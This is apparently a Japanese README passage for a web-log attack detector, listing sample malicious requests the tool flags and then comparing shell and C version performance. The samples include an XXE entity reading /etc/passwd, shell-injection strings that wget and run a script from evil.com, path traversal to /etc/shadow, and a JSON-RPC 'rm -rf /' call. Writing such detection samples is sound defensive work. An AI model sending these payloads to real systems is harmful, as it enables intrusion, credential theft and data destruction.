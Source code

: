 ```bash
# XML攻撃
GET /xml?data=<!entity xxe SYSTEM "file:///etc/passwd">
```

### シェルインジェクション
```bash
# 基本的なコマンド実行
GET /exec?cmd=cd /tmp; wget http://evil.com/shell.sh; sh shell.sh

# URLエンコード版
GET /run?command=%20cd%20/tmp%3bwget%20http://evil.com/backdoor

# 権限昇格試行
GET /admin?action=sudo chmod +x /tmp/exploit
```

### ディレクトリトラバーサル
```bash
GET /files?path=../../../etc/passwd
GET /download?file=..%2f..%2f..%2fetc%2fpasswd
GET /view?doc=....//....//etc/shadow
```

### JSON-RPC攻撃
```json
{"id":1,"method":"deleteUser","params":{"id":"../../../etc/passwd"}}
{"id":2,"method":"executeCommand","params":{"cmd":"rm -rf /"}}
```

## 性能比較

| 項目 | シェルスクリプト版 | C言語版 | 改善率 |
|------|-------------------|---------|--------|
| 処理速度 | 100% | 500-1500% | 5-15倍 |
| メモリ使用量 | 100% | 30-50% | 50-70%削減 |
| CPU使用率 | 100% | 25-40% | 60-75%削減 |
| 大容量ファイル | 制限あり | 制限なし | 大幅改善 |

### v2.1.0 パフォーマンス最適化効果

#### 実装された最適化機能
- **チャンク処理**: 大容量ファイルのメモリ効率的な処理（1000行単位）
- **地理位置検索最適化**: デフォルト無効化によるネットワーク遅延回避
- **高速/詳細モード分離**: 用途に応じた処理速度最適化
- **メモリ使用量制限**: 連想配列サイズ制限とクリーンアップ機能
- **I/O最適化**: bash組み込み機能活用とエラー出力削減

#### パフォーマンス改善効果
- **小ファイル処理**: 50-70%の処理時間短縮
- **中ファイル処理**: 60-80%の処理時間短縮  
- **大ファイル処理**: 50-75%の処理時間短縮
- **メモリ使用量**: 予測可能な制限内使用（< 100MB for 1GB files）
